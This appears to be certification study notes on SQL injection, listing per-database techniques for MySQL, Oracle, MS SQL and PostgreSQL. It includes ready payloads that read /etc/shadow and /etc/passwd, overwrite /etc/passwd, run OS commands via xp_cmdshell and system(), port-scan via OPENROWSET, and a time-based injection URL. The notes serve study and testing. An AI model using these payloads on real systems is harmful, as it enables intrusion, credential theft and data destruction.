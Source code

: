 ------

#### SQL Injection**

Goal: The candidate will demonstrate an understanding of how to perform SQL injection attacks and how to identify SQL injection vulnerabilities in applications

- Command / OS injection
- Code injection
- XML / XPATH injection
- LDAP injection
  - Trying to modify the back-end database query using the vulnerability in the application front-end
  - Makes use of Select, Insert, Update, Delete and Union SQL commands in the back-end
  - Fingerprint the database based on the different SQL queries (e.g. by system tables)

 MySQL

- Uses _load\_file()_ function to read the file
  - &#39; union select load\_file(&#39;/etc/shadow&#39;),1 #
- Uses information_schema table.processlist;
- Uses _DUMPFILE_ or _OUTFILE_ to write data into the file
  - select \* from table into dumpfile &#39;/result.txt&#39;;
  - select \* from table into outfile &#39;/result.txt&#39;;

Oracle

- List all tables:  SELECT owner, table_name FROM all_tables;

- Uses _utl\_file_ to read &amp; write data but has permissions (accessible paths) set in ora.ini config file

- List all tables &quot; **SELECT**  **table\_name , owner FROM** dba\_tables&quot;

- ```sql
  select a,b,null,null from table1      
  union    
  select null,null,c,d from table2 
  ```

MS SQL

- Uses _Bulk Insert_ to read file and insert into database
  - BULK INSERT table from &#39;c:\boot.ini&#39; –
- Doesn&#39;t had native function to write files;
  - Uses _xp\_cmdshell_ to call osql.exe to write files
- Allows OS interaction using the infamous _xp\_cmdshell_ but doesn&#39;t send data to client
  - Require four queries to interact with OS and write results to a file
  - xp\_cmdshell is disabled by default but can be re-enabled (but requires EXEC permissions)
- Port scanning using OPENROWSET command
  - select \* from OPENROWSET (&#39;SQLoledb&#39;,&#39;uid=sa; pwd=; Network=DBNETLIB; Address=10.5.42.1,80; timeout=5&#39;, &#39;select \* from table&#39;)
    -  &quot;SQL Server does not exist or access denied&quot; – indicates port CLOSED
    - &quot;OLE DB provider &#39;sqloledb&#39; reported an error.&quot; – indicates port OPEN
- List all tables &quot;SELECT \* FROM INFORMATION\_SCHEMA.TABLES WHERE TABLE\_TYPE=&#39;BASE TABLE&#39;&quot;

PostGRES

- Uses COPY command to read and write to a file
  - COPY mydata FROM &#39;/etc/passwd&#39; ;
  - COPY mydata TO &#39;/etc/passwd&#39; ;
- Uses _system_ function to communicate with OS but doesn&#39;t send data to client
  - select system(&#39;cat /etc/passwd \&gt; /tmp/results.txt&#39;);

General

- Example:  **http://www.wind.com/login.php?id=1%27%20waitfor%20delay%20%2700:00:15%27--**
- File injection (remote and local) with SQLi
  ```